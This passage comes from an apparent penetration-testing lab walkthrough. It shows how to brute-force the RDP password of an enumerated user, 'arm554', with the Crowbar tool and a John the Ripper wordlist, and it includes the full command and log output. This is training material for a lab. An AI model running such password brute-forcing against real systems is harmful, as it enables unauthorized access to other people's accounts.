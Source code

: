 <a href="/images/ptl-30.png"><img src="/images/ptl-30.png"></a>

Awesome, we see that user is logged in, but also __arm554__ is a valid user too!

Now that we have a list of users, let's try and brute force our way in!

There's this awesome tool called [Crowbar](https://github.com/galkan/crowbar) which was developed to support protocols that are not currently supported by thc-hydra and other popular brute forcing tools. It allows to brute force RDP, VNC, OpenVPN, and more!

So go ahead and download the tool onto your Kali Machine. Once done, let's run the following command to brute force the password for __arm554__ while utilizing John the Rippers Wordlist.

```console
root@kali:~/pentestit/crowbar# ./crowbar.py -b rdp -u arm554 -C /usr/share/john/password.lst -s 127.0.0.1/32 -v
2017-07-17 21:42:23 START
2017-07-17 21:42:23 Crowbar v0.3.5-dev
2017-07-17 21:42:23 Brute Force Type: rdp
2017-07-17 21:42:23      Output File: /root/pentestit/crowbar/crowbar.out
2017-07-17 21:42:23         Log File: /root/pentestit/crowbar/crowbar.log
2017-07-17 21:42:23    Discover Mode: False
2017-07-17 21:42:23     Verbose Mode: 1
2017-07-17 21:42:23       Debug Mode: False
2017-07-17 21:42:23 Trying 127.0.0.1:3389
---snip---
2017-07-17 21:42:26 LOG-RDP: 127.0.0.1:3389 - arm554:123456
2017-07-17 21:42:26 LOG-RDP: 127.0.0.1:3389 - arm554:12345
2017-07-17 21:42:26 LOG-RDP: 127.0.0.1:3389 - arm554:password
2017-07-17 21:42:28 LOG-RDP: 127.0.0.1:3389 - arm554:password1
2017-07-17 21:42:28 LOG-RDP: 127.0.0.1:3389 - arm554:123456789
2017-07-17 21:42:28 LOG-RDP: 127.0.0.1:3389 - arm554:12345678
```